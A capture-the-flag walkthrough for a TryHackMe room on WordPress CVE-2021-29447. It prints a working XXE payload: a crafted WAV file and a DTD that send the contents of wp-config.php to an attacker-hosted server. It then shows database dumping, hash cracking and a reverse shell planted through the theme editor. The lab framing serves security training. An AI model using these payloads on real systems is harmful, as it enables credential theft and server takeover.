 Room: [Wordpress: CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)

Difficulty: Medium

Overview: This is a semi-guided challenge room. We will exploit a Wordpress server through a WAV file that will allow us to read the contents of a sensitive file. Gaining access to mysql database to finaly get our foot in machine by using Wordpress themes editor.

------------------------------------------------------------------------------------------------------------------------------------------------------------------

As usual we will start our enumeration by running “nmap” to search for all open ports on the target system:

```
nmap -sV -sC -p- wordpress.thm -oN nmap.txt

-sV → Probe open ports to determine service
-sC → Scan using the default set of scripts
-p- → Scan all ports
-oN → Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/131554897-778e3a32-8854-4197-a272-734d49759a2d.png)

Since this room is a semi guided challenge we will exploit the http web server on port 80 that was built with Wordpress. 

![image](https://user-images.githubusercontent.com/76821053/131554922-bee65342-5aee-476f-90a1-b7405fbf7a87.png)

To bypass the login portal and access the user dashboard we are going to use the credentials that were given in the previous task: 

![image](https://user-images.githubusercontent.com/76821053/131554952-53b74961-1ec5-4d08-ad45-f8ae03e717e3.png)

How to find the login portal path? We can use google to search for it, or we can also use “gobuster” to search for any hidden files or directories, which is always a good practice:

```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://wordpress.thm -x .txt,.log,.php,.html
```

![image](https://user-images.githubusercontent.com/76821053/131554975-40176714-c2af-4488-953a-698136312558.png)

The login portal's path is at "/wp-login.php":

![image](https://user-images.githubusercontent.com/76821053/131555006-cd5cb3fd-89e8-40bc-9582-f78d816f5a7b.png)

Insert the credentials and we are greated by the user dashboard:

![image](https://user-images.githubusercontent.com/76821053/131555046-d78ec0b5-233b-4529-b2d4-06edce25fee8.png)

We can see that the version of this Wordpress web server is 5.6.2 and it has a CVE-2021-29447. This CVE tells us that a user with the ability to upload files can exploit an XML parsing issue in the Media Library leading to XXE attacks. This requires WordPress installation to be using PHP 8. 

Access to internal files is possible in a successful XXE attack. So let's follow the step by step POC (proof of concept) in task 1 of this room:

1. Create a malicious wave file:

```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

![image](https://user-images.githubusercontent.com/76821053/131555072-339bd7ed-1bbe-4e7e-88b5-0006909b0347.png)

In my payload i changed the ip address and port to match my attacker machine. You can check your ip address with the command "ifconfig".

I also changed the name of “NAMEEVIL.dtd” to “payload.dtd”. It is important that this file has an extention of ".dtd".

2. Create a dtd file with the same name has the "NAMEEVIL.dtd" or with the one that you have chosen before. And, we will have to make some slightly changes:

In this payload we need to change the path of the file that we want to read. In the POC the payload reads "/etc/passwd", so we have to change this to read “wp-config.php”.

Every linux server by default is at “/var/www/html" so the config file must be in this path.

```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

In the second part of the payload only change the ip address and port to match your own.

![image](https://user-images.githubusercontent.com/76821053/131555138-dceb62ee-81c9-491c-abd3-654aadd8f5d6.png)

Now that we have created our payloads we have two files in our directory:

![image](https://user-images.githubusercontent.com/76821053/131555162-f4d21a81-2795-4426-b72b-77868a276ecd.png)

3. Before we upload the .wav file to the Wordpress server we have to host an http server in the same directory as the dtd file:

```
php -S 0.0.0.0:8000
```

This php http server have to be listening on the port that we chose for the payloads.

![image](https://user-images.githubusercontent.com/76821053/131555197-c06d68c4-7ab0-4c24-8657-d59930bcf6fa.png)

4. Time to upload the .wav file:

Go to Media tab and just select the .wav payload.

![image](https://user-images.githubusercontent.com/76821053/131555255-60875794-3784-4657-b5bb-1044eb7e55d7.png)

This will execute code on the webserver, it will fetch the dtd file and we will see information stored in the requests off our php HTTP server logs:

![image](https://user-images.githubusercontent.com/76821053/131555293-e96c8d12-ad16-48f0-bf34-7f79a7bbdcea.png)

5. To read the contents of the request we can use this php one liner:

```
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

Create a .php file with the one liner and copy the encoded data from the your php request log and paste it to “base64here”.

![image](https://user-images.githubusercontent.com/76821053/131555314-0af8c5a2-c6de-42f8-9af7-cfafae609d0d.png)

To read it we just do:

```
php filename.php
```

![image](https://user-images.githubusercontent.com/76821053/131555341-c4137e10-81d6-4738-a49a-afa789882614.png)

Success we managed to read the contents of wp-config.php. Inside are database credentials that we'll be taking advantage next.

Looking at the nmap scan we can see that mysql is running on this system. Let's connect to it with the credentials that we have found above:

```
myslq -h wordpress.thm -u USERNAME -p

-h → To specify the URL
-u → Put the username from the database
-p → For connecting with a password
```

![image](https://user-images.githubusercontent.com/76821053/131555375-7c574c84-7b4f-4a57-8a6c-cb112d2a718e.png)

To navigate mysql service, we can start by listing all databases available:

```
show databases;
```

![image](https://user-images.githubusercontent.com/76821053/131555403-b242c4e7-2b07-47bd-a2b3-ece2495ec92c.png)

Now we have to select the correct dabatase and list all the tables inside:

```
use wordpressdb2

show tables;
```

![image](https://user-images.githubusercontent.com/76821053/131555434-78dd0584-11bf-48af-9e11-9612154b63c6.png)

The table that calls out for attention is wptry_users. To dump its contents we can use this command:

```
SELECT * FROM wptry_users;
```

![image](https://user-images.githubusercontent.com/76821053/131555456-4443a6d8-61d2-4700-8959-a919e1561e5f.png)

We have found our user id 1 and his password hash. 

This hash is encryted in MD5. There is a tool called "hash-identifier" that can parse hashes and identify its encryption:

![image](https://user-images.githubusercontent.com/76821053/131555494-9006149d-9f6d-4bb5-845b-391cf46650a1.png)

Now that we know have a hash and know its encryption type it is time to use “John the Ripper”.

But first we need to put this hash into a .txt file and send it to "john":

```
echo 'MYSQL_HASH' > hash.txt

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/76821053/131555533-65f6b2cc-6406-49cf-b2b3-1f020842afaa.png)

Once again we have new credentials and they belong to the Wordpress server.

How can we compromise the machine and get a reverse shell?

We can leverage the fact that we have access to the “admin” dashboard in the wordpress server. And, by editing the appearance of the web page we will get a reverse shell.

To be more specific let's review the steps:

• Create a php reverse shell with "msfvenom" or use the awesome php reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). 

• In the Wordpress server go to "Apperance/Theme Editor" tab and select "Twenty Twenty" .

• Choose a php theme file. I used “404 Template” and overwrite its contents with the php reverse shell payload:

![image](https://user-images.githubusercontent.com/76821053/131555575-2844f4e2-695d-4938-95fe-f6cd96350e49.png)

• If you are using the payload from Pentestmonkey you have to change the ip address and port that i marked with arrows.

• Start a netcat listener on the same port as the payload.

• To trigger the payload we have to access “Themes” tab select “Twenty Twenty” and press “Live Priview”:

![image](https://user-images.githubusercontent.com/76821053/131555602-37116fd4-c554-4890-b221-b0f3d3e85d8d.png)

• Finaly just press any of the contents of the live preview and in your shell you will recieve a connection from the server:

![image](https://user-images.githubusercontent.com/76821053/131555632-d72a7652-c99b-404e-93e3-8dfd4e002a58.png)

Success we have access to the target machine. 

The final flag is at “stux" home directory:

![image](https://user-images.githubusercontent.com/76821053/131555648-438bfaad-cf7a-414c-ada8-fe87f212fb02.png)








































